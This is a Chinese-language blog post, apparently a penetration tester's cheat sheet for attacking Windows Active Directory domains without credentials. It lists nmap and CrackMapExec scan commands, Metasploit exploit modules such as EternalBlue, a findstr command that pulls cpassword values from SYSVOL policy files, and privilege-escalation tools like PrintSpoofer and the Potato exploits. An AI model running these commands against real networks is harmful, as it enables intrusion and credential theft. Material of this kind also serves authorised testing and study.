 域渗透一条龙手册

**0R@NGE** 

2022-01-26 

 [内网](https://0range-x.github.io/categories/内网/) 

 [内网渗透](https://0range-x.github.io/tags/内网渗透/), [域渗透](https://0range-x.github.io/tags/域渗透/)

# 1.无凭证情况下

## 网络扫描

```
cme smb <ip_range> 							# SMB 扫描存活主机
nmap -sP -p <ip> 							# ping 扫描
nmap -PN -sV --top-ports 50 --open <ip> 	# 快速扫描
nmap -PN --script smb-vuln* -p139,445 <ip> 	# 检测 SMB 漏洞
nmap -PN -sC -sV <ip> 						# 经典扫描
nmap -PN -sC -sV -p- <ip>		 			# 全扫描
nmap -sU -sC -sV <ip> 						# UDP 扫描
```

## 漏洞快速探测

扫描后可以去先用已知漏洞打

```
java rmi： exploit/multi/misc/java_rmi_server
ms17-010：exploit/windows/smb/ms17_010_eternalblue
tomcat：auxiliary/scanner/http/tomcat_enum
jboss manager：exploit/multi/http/tomcat_mgr_deploy
Java反序列化漏洞测试：ysoserial
查找产品的CVE漏洞：searchsploit
MS14-025： searchsploit
		   findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
爆破数据库连接：use admin/mssql/mssql_enum_sql_logins
proxylogon：
proxyshell：
```

## 提权

低权限可以做的事情

```
winpeas.exe
查找内容有 password 的文件：findstr /si 'password' *.txt *.xml *.docx
Juicy Potato / Lovely Potato
PrintSpoofer
RoguePotato
SMBGhost CVE-2020-0796
CVE-2021-36934 (HiveNightmare/SeriousSAM)
......
```
